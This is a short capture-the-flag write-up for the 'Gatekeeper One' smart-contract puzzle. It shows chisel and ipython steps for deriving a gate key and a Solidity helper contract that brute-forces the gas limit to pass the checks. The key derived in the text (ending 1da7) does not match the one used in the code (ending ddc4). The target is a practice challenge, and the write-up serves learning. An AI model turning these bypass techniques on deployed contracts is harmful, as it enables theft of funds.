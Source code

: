 ### Goals

Make it past the keeper

### Exploit

We need to call `enter()` with proper params to pass the modifiers and set us as entrant.

### Code

Gate 1

We need to call it through smart contract to pass this check.

Gate2

We need to figure out the uint i so `gasleft().mod(8191) == 0`

Gate 3

```code
❯ chisel
Welcome to Chisel! Type `!help` to show available commands.
➜ address a = 0x1A08f48978094D6EF3B270eFBC358b745eCD1Da7
➜ uint16(uint160(a))
Type: uint16
├ Hex: 0x1da7
├ Hex (full word): 0x0000000000000000000000000000000000000000000000000000000000001da7
└ Decimal: 7591
```

using ipython we can extract bytes8

```code
In [1]: a = '0x000000000000000000000000000000000000000000000000
   ...: 0000000000001da7'

In [2]: a[-16:]
Out[2]: '0000000000001da7'
```

now using Remix we will deploy helper contract. Finding the right `gasLimit` amount but for me it wasn't that easy tried grabbing values from debugger and adjusting `gasLimit` but it didn't work. So we could also use brutefoce for this.

```code
contract GasFinder {
    function e(GatekeeperOne a) public {
        for (uint256 i=0; i < 8191; i++)
        {
          try a.enter{gas: 20000 + i}(0x000000000000ddc4) {
            break;
          } catch {}
        }
    }
}
```
